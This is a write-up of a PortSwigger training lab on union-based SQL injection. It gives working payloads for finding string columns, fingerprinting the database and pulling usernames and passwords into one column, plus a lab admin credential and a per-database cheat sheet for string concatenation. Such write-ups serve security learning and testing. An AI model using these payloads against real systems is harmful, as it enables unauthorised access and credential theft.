


# Lab08: SQL injection UNION attack, retrieving multiple values in a single column
* url: `https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column`
* vulnerability: `Union-Based SQL Injection`


## Description 
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

## Proof of Concept
1. Much like the last lab, I must extract data from the `users` table and use the credentials for `administrator` to log in and solve the lab. However, in this lab- I must return the data within one column. (Please refer to the notes section)
2. From the last lab: 
* Number of columns: `2`
3. I think it's necessary to know what kind of database I'm dealing with so I can craft the necessary payload for the specific DBMS as well as knowing which column number returns/expects 'string' output. To test which column returns string output I could test the following payloads:  
* `' UNION SELECT 'test', null-- -`
* `' UNION SELECT null, 'test'-- -`  
It looks like `column 2` returns string output!   
  
4. I can now check what kind of database I am currently working with by using the following payloads:  
* `' UNION SELECT null, @@version-- -`
* `' UNION SELECT null, version()-- -`
* `' UNION SELECT null, banner FROM v$version`
It looks like I'm dealing with a `PostgreSQL` DBMS!
5. Now, I can craft a tailored payload: `' UNION SELECT null, username || ':' || password from users-- -`. As you can see, it returned the data within one column:  

6. I can now use these credentials of `administrator` and `lu2zlt04xidh3uscd9ix` to log in and solve the lab! 

## Notes
```sql
UNION SELECT CONCAT(username, ':', password), NULL, NULL FROM users--
```

### Explanation:
- **`CONCAT`**: Combines `username` and `password` into a single string, separated by `:` (or any delimiter you choose).  
- **`FROM users`**: Specifies the table you’re extracting data from.  
- **`--`**: Comments out the rest of the original query.

### If `CONCAT` Doesn’t Work:
Depending on the database, you might need alternative functions:
- **MySQL:** `CONCAT(username, ':', password)`
- **SQL Server:** `username + ':' + password`
- **PostgreSQL:** `username || ':' || password`

### Output Example:
When displayed in a single column, the result might look like this:
```
admin:password123
user1:qwerty
```
